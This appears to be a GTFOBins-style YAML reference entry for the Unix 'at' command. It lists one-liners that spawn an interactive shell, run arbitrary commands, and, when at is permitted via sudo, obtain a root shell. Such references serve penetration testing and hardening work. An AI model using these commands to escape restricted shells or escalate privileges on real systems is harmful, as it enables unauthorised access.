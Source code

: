   shell:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
  command:
    - description: The invocation will be blind, but it is possible to redirect the output to a file in a readable location.
      code: |
        COMMAND=id
        echo "$COMMAND" | at now
  sudo:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
---
